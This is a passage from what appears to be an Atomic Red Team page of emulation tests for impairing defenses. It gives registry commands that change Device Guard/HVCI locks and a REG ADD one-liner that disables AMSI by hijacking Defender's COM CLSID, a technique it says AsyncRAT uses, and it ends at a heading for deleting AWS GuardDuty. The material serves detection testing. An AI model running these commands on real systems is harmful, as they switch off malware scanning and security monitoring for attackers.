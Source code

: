 ```powershell
reg add "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard" /v "Locked" /t REG_DWORD /d 0 /f
reg add "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard\Scenarios\HypervisorEnforcedCodeIntegrity" /v "Enabled" /t REG_DWORD /d 1 /f
reg add "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard\Scenarios\HypervisorEnforcedCodeIntegrity" /v "Locked" /t REG_DWORD /d 0 /f
```




<br/>
<br/>

## Atomic Test #45 - AMSI Bypass - Override AMSI via COM
With administrative rights, an adversary can disable AMSI via registry value in HKCU\Software\Classes\CLSID\{fdb00e52-a214-4aa1-8fba-4357bb0072ec} by overriding the Microsoft Defender COM object for AMSI and points it to a DLL that does not exist.
This is currently being used by AsyncRAT and others. 
https://strontic.github.io/xcyclopedia/library/clsid_fdb00e52-a214-4aa1-8fba-4357bb0072ec.html
https://securitynews.sonicwall.com/xmlpost/asyncrat-variant-includes-cryptostealer-capabilites/

**Supported Platforms:** Windows


**auto_generated_guid:** 17538258-5699-4ff1-92d1-5ac9b0dc21f5






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
REG ADD HKCU\Software\Classes\CLSID\{fdb00e52-a214-4aa1-8fba-4357bb0072ec}\InProcServer32 /ve /t REG_SZ /d C:\IDontExist.dll /f
```

#### Cleanup Commands:
```cmd
REG DELETE HKCU\Software\Classes\CLSID\{fdb00e52-a214-4aa1-8fba-4357bb0072ec}\InProcServer32 /f
```





<br/>
<br/>

## Atomic Test #46 - AWS - GuardDuty Suspension or Deletion
Enables GuardDuty in AWS, upon successful creation this test will suspend and then delete the GuardDuty configuration.

**Supported Platforms:** Iaas:aws


**auto_generated_guid:** 11e65d8d-e7e4-470e-a3ff-82bc56ad938e

